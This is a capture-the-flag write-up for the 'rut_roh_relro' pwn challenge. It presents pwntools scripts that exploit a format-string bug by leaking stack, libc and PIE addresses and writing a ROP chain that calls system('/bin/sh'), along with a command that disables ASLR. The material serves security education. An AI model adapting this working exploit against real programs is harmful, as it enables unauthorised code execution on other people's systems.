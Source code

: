 # PWN
## rut-roh-relro
`writer : Uno (yqroo)`
### Tools
- gdb + pwndbg
- pwntools
- ghidra

### Intro
I manage to solve this challenge almost a week after the competition over, well now i just wanna do write up and share my solver script cuz i get bored.

### Bug and Vulnerability
Format strings but FULL RELRO that's means we can't overwrite global offset table a.k.a GOT but we can still overwrite stack and gain control of rip and perform rop to call system('/bin/sh'), cool.

### Leak data
To make this challenge easier i decided to disable sistem aslr with `echo 0 | sudo tee /proc/sys/kernel/randomize_va_space` command, this will disable our system aslr, what i do next is leaking program data and find offset,
here's my script to do that.

```python
from pwn import *

exe = './rut_roh_relro'
elf = context.binary = ELF(exe, checksec=False)

for i in range(1,100):
    p = process(level='error')
    p.sendline('AAAABBBB%{}$p'.format(i).encode())
    p.recvuntil(b'AAAABBBB')
    result = p.recvline(0)
    print(str(i) + ': ' + str(result))
    p.close()

```

with this script now i know stack address, meaning i can calculate saved return address, i also can leak libc base address by calculating it with `__libc_start_call_main+128` leak, and basically all things you need to know to pop shell, you can find all the data that i leak and use [here](https://github.com/UnoArroefy/CTF-Journey/blob/main/solve/PWN_roh-relro_la/data).

next step is to craft the exploit.

### Exploit
The scenario to pop shell is first leak libc, stack, and pie then overwrite stack with pop rdi, '/bin/sh' string, ret (because stack alignment issue), system. Quite simple right?? here's the script to do it.

```python
from pwn import *

exe = './rut_roh_relro'
elf = context.binary = ELF(exe, checksec=False)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context.log_level = 'warning'

p = elf.process()

payload = b'%41$p'
payload += b'OMO%71$pOMO'
payload += b'%73$p'
p.sendline(payload)
p.recvuntil(b'Here\'s your latest post:\n')
stack = eval(p.recvuntil(b'OMO').split(b'OMO')[0]) - 0x10d3
leak = eval(p.recvuntil(b'OMO').split(b'OMO')[0])
pie = eval(p.recvline(0)) - 0x1165
libc.address = leak - 0x29d90
info('libc : %#x', libc.address)
info('libc : %#x', libc.symbols.system)

pop_rdi = pie + 0x000000000000127b
ret = pie + 0x0000000000001016

write = {
    stack : pop_rdi,
    stack + 8 : next(libc.search(b'/bin/sh')),
    stack + 16 : ret,
    stack + 24 : libc.symbols.system 
}

payload = fmtstr_payload(6, write, write_size='short')
p.sendline(payload)
p.interactive()
```

and with that we pop shell and can cat flag.txt, note that this is on my local computer, because i didn't solved it when the competition. Hope you learn something new, i use automated payload because that was faster and easier.

Until we meet again.
